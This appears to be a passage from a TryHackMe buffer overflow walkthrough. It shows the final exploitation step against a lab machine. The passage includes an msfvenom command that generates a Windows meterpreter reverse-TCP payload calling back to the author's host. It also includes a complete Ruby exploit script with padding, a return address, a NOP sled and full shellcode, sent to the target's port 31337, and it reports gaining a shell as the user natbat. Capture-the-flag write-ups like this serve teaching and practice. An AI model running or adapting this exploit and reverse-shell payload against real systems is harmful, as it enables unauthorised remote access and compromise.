



Now, we have a working template in both Python and Ruby, we can choose either one of them. I am using the final Ruby template for the actual show. However, first we need to create a new payload by using the IP address on THM:
```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.9.87.151 LPORT=6000 -f rb -a x86 --platform windows -b "\x00\x0A"
```
Couple of things to note here. LHOST has my IP when I connect to THM via openvpn, you can find that out by running:
```bash
ifconfig
```
And look for ```tun0``` device. You also notice that I am using a different port for LPORT on my machine. I just wanted to use a different port than 5555. Now, we need to copy and paste the encoded payload into our Ruby template:


```Ruby
buff = "A"*146
buff += "\xc3\x14\x04\x08"
buff += "\x90"*8
buff += "\xbb\x9d\x8a\xad\x59\xda\xc5\xd9\x74\x24\xf4\x5d\x33\xc9" +
"\xb1\x56\x83\xc5\x04\x31\x5d\x0f\x03\x5d\x92\x68\x58\xa5" +
"\x44\xee\xa3\x56\x94\x8f\x2a\xb3\xa5\x8f\x49\xb7\x95\x3f" +
"\x19\x95\x19\xcb\x4f\x0e\xaa\xb9\x47\x21\x1b\x77\xbe\x0c" +
"\x9c\x24\x82\x0f\x1e\x37\xd7\xef\x1f\xf8\x2a\xf1\x58\xe5" +
"\xc7\xa3\x31\x61\x75\x54\x36\x3f\x46\xdf\x04\xd1\xce\x3c" +
"\xdc\xd0\xff\x92\x57\x8b\xdf\x15\xb4\xa7\x69\x0e\xd9\x82" +
"\x20\xa5\x29\x78\xb3\x6f\x60\x81\x18\x4e\x4d\x70\x60\x96" +
"\x69\x6b\x17\xee\x8a\x16\x20\x35\xf1\xcc\xa5\xae\x51\x86" +
"\x1e\x0b\x60\x4b\xf8\xd8\x6e\x20\x8e\x87\x72\xb7\x43\xbc" +
"\x8e\x3c\x62\x13\x07\x06\x41\xb7\x4c\xdc\xe8\xee\x28\xb3" +
"\x15\xf0\x93\x6c\xb0\x7a\x39\x78\xc9\x20\x55\x4d\xe0\xda" +                                                                                                            
"\xa5\xd9\x73\xa8\x97\x46\x28\x26\x9b\x0f\xf6\xb1\xaa\x18" +                                                                                                            
"\x09\x6d\x14\x48\xf7\x8e\x64\x40\x3c\xda\x34\xfa\x95\x63" +                                                                                                            
"\xdf\xfa\x1a\xb6\x75\xf1\x8c\x33\x80\x52\xda\x2c\x90\x5c" +                                                                                                            
"\xf3\xdc\x1d\xba\xab\x4c\x4d\x13\x0c\x3d\x2d\xc3\xe4\x57" +                                                                                                            
"\xa2\x3c\x14\x58\x69\x55\xbf\xb7\xc7\x0d\x28\x21\x42\xc5" +                                                                                                            
"\xc9\xae\x59\xa3\xca\x25\x6b\x53\x84\xcd\x1e\x47\xf1\xa9" +                                                                                                            
"\xe0\x97\x02\x5c\xe0\xfd\x06\xf6\xb7\x69\x05\x2f\xff\x35" +                                                                                                            
"\xf6\x1a\x7c\x31\x08\xdb\xb4\x49\x3f\x49\xf8\x25\x40\x9d" +                                                                                                            
"\xf8\xb5\x16\xf7\xf8\xdd\xce\xa3\xab\xf8\x10\x7e\xd8\x50" +                                                                                                            
"\x85\x81\x88\x05\x0e\xea\x36\x73\x78\xb5\xc9\x56\xfa\xb2" +                                                                                                            
"\x35\x24\xd5\x1a\x5d\xd6\x65\x9b\x9d\xbc\x65\xcb\xf5\x4b" +                                                                                                            
"\x49\xe4\x35\xb3\x40\xad\x5d\x3e\x05\x1f\xfc\x3f\x0c\xc1" +                                                                                                            
"\xa0\x40\xa3\xda\x53\x3a\xcc\xdd\x94\xbb\xc4\xb9\x95\xbb" +                                                                                                            
"\xe8\xbf\xaa\x6d\xd1\xb5\xed\xad\x66\xc5\x58\x93\xcf\x4c" +                                                                                                            
"\xa2\x87\x10\x45"

RHOST = "10.10.64.5"
RPORT = 31337


require 'socket'

TCPSocket.open(RHOST,RPORT){ |s| s.puts buff}
```
Before running our Ruby script, let's start msfconsole and set up our handler with the payload and run it in the background:



Now, it is time to fire away our Ruby script ```ruby shellcode.rb```



Nice, we are now in the machine as natbat user. Next, we'll look for some information...

[<= Go Back to BOF Menu](bufferoverflows.md)

[<= Go Back to Main Menu](index.md)
